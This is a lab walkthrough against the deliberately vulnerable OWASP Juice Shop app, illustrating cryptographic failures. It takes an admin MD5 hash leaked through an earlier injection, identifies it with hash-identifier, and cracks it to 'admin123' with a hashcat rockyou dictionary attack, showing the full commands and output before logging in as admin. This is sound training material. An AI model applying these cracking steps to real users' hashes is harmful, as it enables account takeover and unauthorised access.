 # A2:201 - Cryptographic Failures

## Overview
[Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/) occur when applications fail to properly protect data in transit and at rest through inadequate or missing cryptographic controls. This vulnerability category encompasses issues such as using weak encryption algorithms, improper key management, transmitting sensitive data in plaintext, and failing to encrypt sensitive data altogether.

Cryptographic failures can lead to exposure of sensitive data including personal information, authentication credentials, financial data, and other confidential information. These failures often result from using outdated cryptographic standards, poor implementation of encryption, or complete absence of encryption where it should be applied.

## Reconnaissance
This vulnerability as discovered during the [injection](./03-injection.md) of the walk through. Do that one first. 

The aforementioned injection attack revealed user information with some sort of hashed/encrypted passwords. Let's figure out what the scheme could be and see if its breakable. 

```json
{"id":1,"name":"admin@juice-sh.op","description":"","price":4,"deluxePrice":"0192023a7bbd73250516f069df18b500","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},```

Kali has a handy tool called Hash Identifier. Paste in any hash and it will try to figure out what it is. 

```sh
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0192023a7bbd73250516f069df18b500

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Hash Identifer shoes to this to be an MD5 hash, which has cryptographic flaws and tools like Hashcat have wordlists to break it. If this isn't a very copmlex password, Hashcar will break it. 

## Exploit
Runing Hashcat with the Rockyou wordlist to try and break the admin user's password.

I saved the hash to a file called `admin.txt` on my `cwd` and ran the builtin Rockyou wordlist from Kali.


```sh
hashcat -m 0 -a 0 admin.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0192023a7bbd73250516f069df18b500:admin123                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 0192023a7bbd73250516f069df18b500
Time.Started.....: Tue Jun 10 07:26:35 2025 (0 secs)
Time.Estimated...: Tue Jun 10 07:26:35 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   874.9 kH/s (0.08ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 90624/14344385 (0.63%)
Rejected.........: 0/90624 (0.00%)
Restore.Point....: 89088/14344385 (0.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: hairy -> 141201

Started: Tue Jun 10 07:26:21 2025
Stopped: Tue Jun 10 07:26:37 2025
```

Hashcat was able to find the password in its wordlist of `admin123`. Let's try it on the site. 

We're in!

Chaining multiple exploits can bring an even greater impact to a business than standalone.

